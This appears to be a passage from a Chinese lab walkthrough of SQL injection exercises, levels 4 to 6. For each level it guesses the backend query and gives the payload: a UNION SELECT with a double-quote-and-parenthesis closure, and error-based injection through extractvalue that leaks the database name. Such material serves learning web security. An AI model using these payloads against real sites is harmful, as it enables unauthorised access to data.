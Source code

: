 ```
select username,passwd from user where id = ('前端传入的数据') limit 0,1;
```

> 此处如果使用双引号进行闭合的话，不会起作用。会被单引号包裹，当成内容。



#### 4.	

此题和3题差不多。3题是单引号和小括号包裹前端传过来的数据。此题为双引号和小括号包裹前端传过来的数据

```
?id=-1") union select 1,2,3 %23
```



猜测后端 sql语句为：

```
select username,password from users where id=("前端传来的数据") limit 0,1;
```

> 如果此处尝试使用单引号闭合，不会起作用，会被当成内容。





#### 5.	报错注入

此题可以用盲注或者是报错注入。因为此题没有`union`注入所需的回显点，只有显示正常与否的页面，所以可以用盲注。又因为此题会报sql的错误信息回显。所以可以通过报错注入。



当然此题推荐报错注入，因为速度更快🐎😄

```
?id=1'and extractvalue(1,concat(0x7e,(select database())))%23
```



猜测后端sql语句为：

```
select * from users where id='前端传入的数据' limit 0,1;
```

> 注意此题不回显查到的数据，但回显sql报错语句。





#### 6.	

此题和第五题基本相同，不同的就是：5题是用单引号来包裹传入的数据，此题则是双引号包裹传入的数据

所以此题只需要把上面的payload中的单引号换成双引号就行了。





```
?id=1" and extractvalue(1,concat(0x7e,(select database())))%23
```
